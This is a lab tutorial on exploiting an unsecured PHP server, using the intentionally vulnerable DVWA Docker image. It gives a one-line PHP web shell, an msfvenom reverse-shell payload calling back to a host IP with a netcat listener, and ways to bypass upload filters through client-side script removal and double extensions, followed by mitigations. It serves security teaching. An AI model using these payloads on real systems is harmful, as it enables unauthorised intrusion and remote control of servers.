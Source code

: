 PHP Reverse shell
#####################

Date: 2025-02-01 08:11:21

Status: released version 0.1

Tags: :ref:`Labs` 

Introduction
***************

One would think that modern installations have secured their implementation, however since this tasks 
is left up to humans, we find many installations that have not been updated, and or secured.

This lab series documents approaches for various technologies.  Today, we are targeting an unsecured PHP
installation.

Setup
*********
For the target I am using a docker image from: https://github.com/opsxcq/docker-vulnerable-dvwa
It is an image with the intent of helping students learn about securing web installations.

.. code-block:: bash

    docker run --rm -it -p 80:80 vulnerables/web-dvwa

- Login to the site with http://your_docker_IP with the credentials `admin/password`    
- Click the bottom button (create/reset) to finish the installation
- Login again with the above credentials

How this vulnerability is leveraged is by a server that allows the system command to be used in PHP.  Modern versions have 
this disabled by default, by older installations, or installations that require this command to be 
available may have this set to on.

From `/etc/php.ini` 

.. code-block:: console

    disable_functions =exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

By removing the system function from this comma delimited list, you will enable the system command after the
next service restart.  This tutorial will focus on the system command, but as you can see there are many options.


Create a payload
*******************

We are going to create a payload (a file) to upload the server and see if we can run system commands.

.. code-block:: console

    mkdir -P ~/labs/shells
    cd ~/labs/shells
    echo '<?php system($_REQUEST['cmd']); ?>' > shell.php

- Upload the shell by using the left menu and choosing `File Upload` and upload your created script.
- The created file gets stored on the target in /hackable/uploads 
  
Navigate to the url: http://172.17.0.2/hackable/uploads/shell.php?cmd=whoami and you should see
`www-data`.  This is the output of the command whoami.

.. note:: the cmd is the GET variable name you use as the request in your script, and the argument is 
    whoami, you can also use other system commands such as ls or cat as examples. 

Using MSFVenom to create a more complex payload
**************************************************

- Prerequisite is to have metasploit installed. 
- Substitute your IP with the <HOST_IP> tag 

**Step 1** Create a reverse shell with metasploit 

.. code-block:: console 

    msfvenom -p php/reverse_php LHOST=<HOST_IP> LPORT=1234 -f raw > reverse.php

- Upload the shell by using the left menu and choosing `File Upload` and upload your created script.
- The created file gets stored on the target in /hackable/uploads 

**Step 2** Create a listener on your host machine with netcat 

.. code-block:: console

    nc -lnvp 1234

- Execute the remote reverse shell by requesting the script : http://<HOST_IP>/hackable/uploads/reverse.php
- You should see a connection on your `nc -lnvp 1234` output.  From here you can browse the targets file system.

Dealing with upload filters
*****************************

Applications may be configured to filter file types that can contain malicious content such as shell code.

Blacklist filters
=====================

These type of filters disallow certain types of uploads such as `.sh` `.exe` to help protect the application.  Blacklist filters are common to applications that require a larger expected types of files (such as a file manager)

Whitelist filters
===================

These type of filters are common on Web applications, since the upload feature may focus on a simple usecase such as uploading a picture.  So the filter may online except `.png|.jpg|.jpeg` etc.

Bypassing filters 
===================

Client side Java script 
--------------------------

Changing the client code that executes in your browser.  For example: removing a the `CheckFileExtension` Javascript function that inspects the file extension.  This can be trivial to do, since you can right click on the 
button and choose `inspect element` in Chrome and just highlighting the function and deleting it. 

.. code-block:: console

    <button type="submit" onClick="CheckFileExtension" >Upload</button>

Server side filters
---------------------

A weak filter may allow you to trick the system into believing you are uploading a file it expects, with malicious content. Now you cannot just rename your file to the expected extension, since the system will
treat it as such and not actually execute the code.

Giving this function to filter unwanted files:

.. code-block:: php

    $fileName = basename($_FILES["uploadFile"]["name"]);

    if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
        echo "Only jpg|jpeg|png|gif are allowed";
        die();

The function checks that only image type extensions are uploaded.  The regex above is considered weak, since adding a double extension (ie: `webshell.png.php`) allows a webshell to be uploaded and executed.


Mitigate this Attack Vector
*****************************

The most effective way to protect against this type of attack:

- Adding system style commands to the disable_function list
- Restricting uploads when not necessary 
- Checking file uploads for malicious content with strong testing techniques
- Allowing only approved file extensions from being processed. 
- Using a WAF 
  
References
**************

- PHP System commands: https://www.php.net/manual/en/function.system.php
- How to disable commands: https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/
- Alternate shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet